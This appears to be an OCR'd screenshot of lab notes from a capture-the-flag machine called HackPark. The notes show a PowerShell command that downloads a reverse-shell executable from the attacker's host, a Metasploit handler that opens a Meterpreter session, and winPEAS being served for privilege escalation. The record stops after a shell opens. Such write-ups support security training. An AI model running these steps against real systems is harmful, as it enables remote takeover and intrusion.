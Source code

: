 #had to change the directory to upload the reverse.exe to the machine:
c:\windows\Temp>
powershell -c "Invoke-WebRequest -Uri 'http://10.11.59.68:80/reverse.exe' -Outfile 'C:\Windows\Temp\reverse.exe'"

10.10.200.76 - - [09/Feb/2022 08:01:18] "GET /reverse.exe HTTP/1.1" 200 -

#next I set up the metasploit for the meterpreter:
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.11.59.68
LHOST => 10.11.59.68
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.11.59.68:9001 
[*] Sending stage (175174 bytes) to 10.10.64.254
[*] Meterpreter session 1 opened (10.11.59.68:9001 -> 10.10.64.254:49245) at 2022-02-10 17:26:11 -0500


#^^after running the metasploit I executed the reverse.exe file on the windows system using reverse.exe

#checking for OS info
meterpreter > sysinfo
Computer        : HACKPARK
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows

#next Ill upload winpeas to the meterpreter shell:
(kali㉿kali)-[~/THM/practice/hackpark]
└─$ cd /home/kali/tools/PEASS-ng/winPEAS/winPEASbat                                                              1 ⨯
                                                                                                                     
┌──(kali㉿kali)-[~/tools/PEASS-ng/winPEAS/winPEASbat]
└─$ ls
README.md  winPEAS.bat
                                                                                                                     
┌──(kali㉿kali)-[~/tools/PEASS-ng/winPEAS/winPEASbat]
└─$ python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...

meterpreter > shell
Process 2656 created.
Channel 1 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
